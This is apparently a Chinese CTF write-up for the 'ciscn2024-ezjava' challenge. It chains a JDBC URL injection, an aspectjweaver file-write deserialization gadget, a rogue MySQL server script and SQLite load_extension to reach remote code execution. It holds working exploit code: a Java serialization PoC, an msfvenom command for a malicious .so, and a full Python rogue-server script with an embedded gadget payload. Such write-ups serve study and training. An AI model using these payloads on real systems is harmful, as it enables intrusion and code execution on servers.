






# ciscn2024-ezjava

能控制连接url及其属性，且给了几个数据库的驱动






还有个注入：


&#x20;PostgreSQL版本太高了，要不然直接ClassPathXmlApplicationContext就打了，这里版本不符合：

rce:

- REL9.4.1208 <= PostgreSQL <42.2.25
- 42.3.0 <= PostgreSQL < 42.3.2

writefile:

- 42.1.0 <= PostgreSQL <42.3.3

他的版本：



其实串一下 剩下的这俩能用的驱动加一个注入的时候，很容易就能想出来，利用case1打个写so文件的gadget，然后用case3的sqlite加载so 文件rce。Userbean：



aspectjweaver中的SimpleCache#StoreableCachingMap类的put方法可以用来写文件：



写文件poc：

```java
package org.test;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.nio.charset.StandardCharsets;
import java.util.HashMap;


public class Main {
    public static void main(String[] args)  throws Exception{
//        Constructor con = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap").getDeclaredConstructor(String.class,int.class);
//        con.setAccessible(true);
//        HashMap map = (HashMap)con.newInstance("/", 1);
//        map.put("tmp/1.txt","test".getBytes(StandardCharsets.UTF_8));

        Constructor con = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap").getDeclaredConstructor(String.class,int.class);
        con.setAccessible(true);
        HashMap map = (HashMap)con.newInstance("/", 1);
        com.example.jdbctest.bean.UserBean  userBean= new com.example.jdbctest.bean.UserBean("tmp/123.so","MQo=");
        userBean.setObj(map);

        FileOutputStream fileOut = new FileOutputStream("/tmp/object.ser");
        ObjectOutputStream out = new ObjectOutputStream(fileOut);
        out.writeObject(userBean);
        out.close();
        fileOut.close();

//        Main.unser("/tmp/object.ser");

    }

public static void unser(String test) throws Exception{
    FileInputStream fileIn = new FileInputStream(test);
    ObjectInputStream in = new ObjectInputStream(fileIn);
    in.readObject();
    in.close();
    fileIn.close();

}

}
```

本地测试下：



msf生成个so：

```bash
msfvenom -p linux/x64/exec CMD='echo xxxxx |base64 -d|bash' -f elf-so -o evil.so

```

接下来，就开个恶意mysql，打下上面那条gadget把so写进去就可以了。

```python
import socket
import binascii
import os

greeting_data="4a0000000a352e372e31390008000000463b452623342c2d00fff7080200ff811500000000000000000000032851553e5c23502c51366a006d7973716c5f6e61746976655f70617373776f726400"
response_ok_data="0700000200000002000000"

def receive_data(conn):
    data = conn.recv(1024)
    print("[*] Receiveing the package : {}".format(data))
    return str(data).lower()

def send_data(conn,data):
    print("[*] Sending the package : {}".format(data))
    conn.send(binascii.a2b_hex(data))

def get_payload_content():
    #file文件的内容使用ysoserial生成的 使用规则：java -jar ysoserial [Gadget] [command] > payload
    file= r'payload'
    if os.path.isfile(file):
        with open(file, 'rb') as f:
            payload_content = str(binascii.b2a_hex(f.read()),encoding='utf-8')
        print("open successs")

    else:
        print("open false")
        #calc
        payload_content='aced0005737200116a6176612e7574696c2e48617368536574ba44859596b8b7340300007870770c000000023f40000000000001737200346f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6b657976616c75652e546965644d6170456e7472798aadd29b39c11fdb0200024c00036b65797400124c6a6176612f6c616e672f4f626a6563743b4c00036d617074000f4c6a6176612f7574696c2f4d61703b7870740003666f6f7372002a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6d61702e4c617a794d61706ee594829e7910940300014c0007666163746f727974002c4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436861696e65645472616e73666f726d657230c797ec287a97040200015b000d695472616e73666f726d65727374002d5b4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707572002d5b4c6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e5472616e73666f726d65723bbd562af1d83418990200007870000000057372003b6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436f6e7374616e745472616e73666f726d6572587690114102b1940200014c000969436f6e7374616e7471007e00037870767200116a6176612e6c616e672e52756e74696d65000000000000000000000078707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e496e766f6b65725472616e73666f726d657287e8ff6b7b7cce380200035b000569417267737400135b4c6a6176612f6c616e672f4f626a6563743b4c000b694d6574686f644e616d657400124c6a6176612f6c616e672f537472696e673b5b000b69506172616d54797065737400125b4c6a6176612f6c616e672f436c6173733b7870757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078700000000274000a67657452756e74696d65757200125b4c6a6176612e6c616e672e436c6173733bab16d7aecbcd5a990200007870000000007400096765744d6574686f647571007e001b00000002767200106a6176612e6c616e672e537472696e67a0f0a4387a3bb34202000078707671007e001b7371007e00137571007e001800000002707571007e001800000000740006696e766f6b657571007e001b00000002767200106a6176612e6c616e672e4f626a656374000000000000000000000078707671007e00187371007e0013757200135b4c6a6176612e6c616e672e537472696e673badd256e7e91d7b4702000078700000000174000463616c63740004657865637571007e001b0000000171007e00207371007e000f737200116a6176612e6c616e672e496e746567657212e2a0a4f781873802000149000576616c7565787200106a6176612e6c616e672e4e756d62657286ac951d0b94e08b020000787000000001737200116a6176612e7574696c2e486173684d61700507dac1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478703f4000000000000077080000001000000000787878'
    return payload_content

# 主要逻辑
def run():

    while 1:
        conn, addr = sk.accept()
        print("Connection come from {}:{}".format(addr[0],addr[1]))

        # 1.先发送第一个 问候报文
        send_data(conn,greeting_data)

        while True:
            # 登录认证过程模拟  1.客户端发送request login报文 2.服务端响应response_ok
            receive_data(conn)
            send_data(conn,response_ok_data)

            #其他过程
            data=receive_data(conn)
            #查询一些配置信息,其中会发送自己的 版本号
            if "session.auto_increment_increment" in data:
                _payload='01000001132e00000203646566000000186175746f5f696e6372656d656e745f696e6372656d656e74000c3f001500000008a0000000002a00000303646566000000146368617261637465725f7365745f636c69656e74000c21000c000000fd00001f00002e00000403646566000000186368617261637465725f7365745f636f6e6e656374696f6e000c21000c000000fd00001f00002b00000503646566000000156368617261637465725f7365745f726573756c7473000c21000c000000fd00001f00002a00000603646566000000146368617261637465725f7365745f736572766572000c210012000000fd00001f0000260000070364656600000010636f6c6c6174696f6e5f736572766572000c210033000000fd00001f000022000008036465660000000c696e69745f636f6e6e656374000c210000000000fd00001f0000290000090364656600000013696e7465726163746976655f74696d656f7574000c3f001500000008a0000000001d00000a03646566000000076c6963656e7365000c210009000000fd00001f00002c00000b03646566000000166c6f7765725f636173655f7461626c655f6e616d6573000c3f001500000008a0000000002800000c03646566000000126d61785f616c6c6f7765645f7061636b6574000c3f001500000008a0000000002700000d03646566000000116e65745f77726974655f74696d656f7574000c3f001500000008a0000000002600000e036465660000001071756572795f63616368655f73697a65000c3f001500000008a0000000002600000f036465660000001071756572795f63616368655f74797065000c210009000000fd00001f00001e000010036465660000000873716c5f6d6f6465000c21009b010000fd00001f000026000011036465660000001073797374656d5f74696d655f7a6f6e65000c21001b000000fd00001f00001f000012036465660000000974696d655f7a6f6e65000c210012000000fd00001f00002b00001303646566000000157472616e73616374696f6e5f69736f6c6174696f6e000c21002d000000fd00001f000022000014036465660000000c776169745f74696d656f7574000c3f001500000008a000000000020100150131047574663804757466380475746638066c6174696e31116c6174696e315f737765646973685f6369000532383830300347504c013107343139343330340236300731303438353736034f4646894f4e4c595f46554c4c5f47524f55505f42592c5354524943545f5452414e535f5441424c45532c4e4f5f5a45524f5f494e5f444154452c4e4f5f5a45524f5f444154452c4552524f525f464f525f4449564953494f4e5f42595f5a45524f2c4e4f5f4155544f5f4352454154455f555345522c4e4f5f454e47494e455f535542535449545554494f4e0cd6d0b9fab1ead7bccab1bce4062b30383a30300f52455045415441424c452d5245414405323838303007000016fe000002000000'
                send_data(conn,_payload)
                data=receive_data(conn)
            elif "show warnings" in data:
                _payload = '01000001031b00000203646566000000054c6576656c000c210015000000fd01001f00001a0000030364656600000004436f6465000c3f000400000003a1000000001d00000403646566000000074d657373616765000c210000060000fd01001f000059000005075761726e696e6704313238374b27404071756572795f63616368655f73697a6527206973206465707265636174656420616e642077696c6c2062652072656d6f76656420696e2061206675747572652072656c656173652e59000006075761726e696e6704313238374b27404071756572795f63616368655f7479706527206973206465707265636174656420616e642077696c6c2062652072656d6f76656420696e2061206675747572652072656c656173652e07000007fe000002000000'
                send_data(conn, _payload)
                data = receive_data(conn)
            if "set names" in data:
                send_data(conn, response_ok_data)
                data = receive_data(conn)
            if "set character_set_results" in data:
                send_data(conn, response_ok_data)
                data = receive_data(conn)
            if "show session status" in data:
                mysql_data = '0100000102'
                mysql_data += '1a000002036465660001630163016301630c3f00ffff0000fc9000000000'
                mysql_data += '1a000003036465660001630163016301630c3f00ffff0000fc9000000000'
                # 为什么我加了EOF Packet 就无法正常运行呢？？
                # 获取payload
                payload_content=get_payload_content()
                # 计算payload长度
                payload_length = str(hex(len(payload_content)//2)).replace('0x', '').zfill(4)
                payload_length_hex = payload_length[2:4] + payload_length[0:2]
                # 计算数据包长度
                data_len = str(hex(len(payload_content)//2 + 4)).replace('0x', '').zfill(6)
                data_len_hex = data_len[4:6] + data_len[2:4] + data_len[0:2]
                mysql_data += data_len_hex + '04' + 'fbfc'+ payload_length_hex
                mysql_data += str(payload_content)
                mysql_data += '07000005fe000022000100'
                send_data(conn, mysql_data)
                data = receive_data(conn)
            if "show warnings" in data:
                payload = '01000001031b00000203646566000000054c6576656c000c210015000000fd01001f00001a0000030364656600000004436f6465000c3f000400000003a1000000001d00000403646566000000074d657373616765000c210000060000fd01001f00006d000005044e6f74650431313035625175657279202753484f572053455353494f4e20535441545553272072657772697474656e20746f202773656c6563742069642c6f626a2066726f6d2063657368692e6f626a73272062792061207175657279207265777269746520706c7567696e07000006fe000002000000'
                send_data(conn, payload)
            break
```

最后用select触发即可：

```python
(select (load_extension("/tmp/123.so"))) 
```

    还有一种方法也可以，利用缓存写so、db文件，CREATE VIEW去劫持select，这就不多说了。感兴趣的可以去diff下3.41.2.2与上个版本的代码，很容易就理解了。
    
    这道题看的时间不长，感觉解法还应该很多，换个思路想想，是不是这道题可以转换为springboot下的任意文件写呢？比如直接写jar、class等配合慢加载去进行rce。其他的方式大佬们自己可以去尝试一下
